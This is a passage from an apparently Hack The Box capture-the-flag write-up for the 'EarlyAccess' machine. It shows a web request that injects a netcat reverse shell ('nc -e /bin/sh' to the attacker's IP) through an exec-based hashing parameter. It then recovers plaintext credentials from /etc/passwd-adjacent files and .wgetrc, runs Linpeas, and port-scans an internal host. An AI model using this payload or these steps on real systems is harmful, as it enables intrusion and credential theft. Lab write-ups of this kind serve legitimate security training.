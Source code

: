 ```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dev.earlyaccess.htb/home.php?tool=hashing
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=63ef3f828983249ba5f75d9281f96e87
Connection: close

action=verify&password=nc -e /bin/sh 10.10.14.113 1234&hash=whatever&hash_function=exec&debug=True
```

## User

Inside the `/etc/passwd` we can see that there is another user called `www-adm`.
We can switch to that user by `su www-adm` and pw `gameover`.
In the home directory of www-adm we find a `.wgetrc`:
```
cat .wgetrc
user=api
password=s3CuR3_API_PW!
```

Running Linpeas we find some networking stuff:
```s
webserver                                                                                                                                                           
127.0.0.1       localhost
::1     		localhost ip6-localhost ip6-loopback
fe00::0 		ip6-localnet
ff00::0 		ip6-mcastprefix
ff02::1 		ip6-allnodes
ff02::2 		ip6-allrouters
172.18.0.102    webserver
nameserver 		127.0.0.11
options ndots:0
                                     
╔══════════╣ Interfaces
default         0.0.0.0                                                                                                                                             
loopback        127.0.0.0
link-local      169.254.0.0


╔══════════╣ Networks and neighbours
Iface   Destination     Gateway         Flags   RefCnt  Use     Metric  Mask            MTU     Window  IRTT                                                        
eth0    00000000        010012AC        0003    0       0       0       00000000        0       0       0                                                                               
eth0    000012AC        00000000        0001    0       0       0       0000FFFF        0       0       0                                                                               
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.101     0x1         0x2         02:42:ac:12:00:65     *        eth0
172.18.0.2       0x1         0x2         02:42:ac:12:00:02     *        eth0
172.18.0.1       0x1         0x2         02:42:a6:35:c1:d3     *        eth0
172.18.0.100     0x1         0x2         02:42:ac:12:00:64     *        eth0
```
Let's have a look at that `172.18.0.101` with nc:
```
nc -z -v 172.18.0.101 1-10000 2&>out
cat out
api.app_nw [172.18.0.101] 5000 (?) open
```